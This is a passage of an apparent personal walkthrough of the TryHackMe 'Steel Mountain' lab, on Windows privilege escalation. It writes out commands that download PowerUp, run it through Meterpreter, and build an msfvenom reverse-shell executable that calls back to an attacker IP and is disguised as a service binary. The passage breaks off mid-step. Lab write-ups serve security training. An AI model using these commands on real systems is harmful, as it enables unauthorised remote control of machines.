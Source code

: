 NOTES TO SELF:

* NetworkManager likes to bring down connections on session disconnect, even if TMUX is running in the background.
* Remember to punch a (temporary) hole through the firewall for *all* of the ports required by the exploit!

I lost a good hour getting stuck because of these two minor complications.

* [Using "nmap"](../notes/nmap.md)

### Privilege Escalation

PowerUp is a script that scans for common Windows vulnerabilities. It looks like the version that's included with Kali Linux is different and/or not-up-to-date relative to the version of PowerUp linked to by the TryHackMe Steelmountain room. In particular, Kali version doesn't list *a lot* of information about potentially vulnerable services that is necessary for completing this section. (On the downside, the version of PowerUp we need to use produces *a lot* of duplicative output too…)

Anyways, first we have to download the more capable version of PowerUp:

```bash
curl -O https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

Meterpreter can upload files to the target machine:

```meterpreter
upload /home/kali/PowerUp.ps1
```

To load it up in Meterpreter we need to shell out to PowerShell.

```meterpreter
load powershell
powershell_shell
```

And then:

```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

For whatever reason, the room lists the wrong msfvenom command. To generate the correct reverse shell requires:

```bash
msfvenom -p windows/shell_reverse_tcp \
            LHOST=10.13.26.40 LPORT=4443 \
         -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

(The reason we need to specify an encoder here is because the vulnerable binary is in Program Files (x86), so we need to produce an x86 binary rather than the default x86_64 binary.)

To upload this, we'll need to background PowerShell with `^Z`. (*Don't* try to exit - for me this caused hangs, and I eventually had to restart the machine!) Upload and then start a new shell:
